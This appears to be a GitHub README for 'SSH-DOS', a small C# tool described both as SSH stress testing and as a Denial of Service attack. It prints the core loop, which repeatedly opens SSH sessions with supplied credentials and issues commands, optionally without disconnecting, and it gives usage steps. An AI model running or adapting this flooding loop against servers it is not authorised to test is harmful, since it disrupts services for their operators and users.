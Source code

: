 # SSH-DOS
For stress testing SSH by repeatedly connecting and issuing commands.

[![Build status](https://ci.appveyor.com/api/projects/status/wwbnlje4gl61en7i?svg=true)](https://ci.appveyor.com/project/bman46/ssh-dos)

## Core Responses:

- This program is written in C# and is meant to perform a Denial of Service attack on a SSH connection. 
- The conditional structure found in `Form1.cs`:
`
if (_worker.CancellationPending)
{
    break;
}
`
 is meant to kill the background worker loop when the user clicks on the stop button.
 - The looping structure: 

            _worker.DoWork += new DoWorkEventHandler((state, args) =>
            {
                do
                {
                    if (_worker.CancellationPending)
                    {
                        break;
                    }

                    using (SshClient client = new SshClient(textBox1.Text, textBox2.Text, textBox3.Text))
                    {
     
                        
                        try
                        {
                            client.Connect();
                            if (Screen.Checked)
                            {
                                client.RunCommand("screen");
                            }
                            client.RunCommand(textBox4.Text);
                            if (!Disconnect.Checked)
                            {
                                client.Disconnect();
                            }
                        }
                        catch
                        {
                            MessageBox.Show("Error Connecting SSH", "SSH Error", MessageBoxButtons.OK, MessageBoxIcon.Error);
                            break;
                        }
                        
                    }

                } while (true);
            });
uses a do while statement that repeatedly connects and issues commands to the target. This loop is killed by the stop button which then kills the worker; therefore, stopping the loop.
- The Abstraction:

        private void SwapButtons()
        {
            if(goButton.Enabled==false)
            {
                goButton.Enabled = true;
                stopButton.Enabled = false;
            } else {
                goButton.Enabled = false;
                stopButton.Enabled = true;
            }
        }
is used to swap the go and stop button depending if the program is running or not, it is an abstraction because it hides the code that switches the buttons.
## Usage:

Download most recent release and then fill in the input fields.

`No Disconnect` means that it wont send a dissconnect and then try to recconect again.

`Use Screen` means that it will issue the command `Screen` before sending commands (Note: This command will be in the Loop and repeatedly issued)

![alt text](https://github.com/bman46/SSH-DOS/blob/master/SSH-DOS.png?raw=true "Screen Shot of SSH-DOS")
###### Note: Some file names may say SSL but it was a mistake when i created the application and SSL has nothing to do with this repository/program.
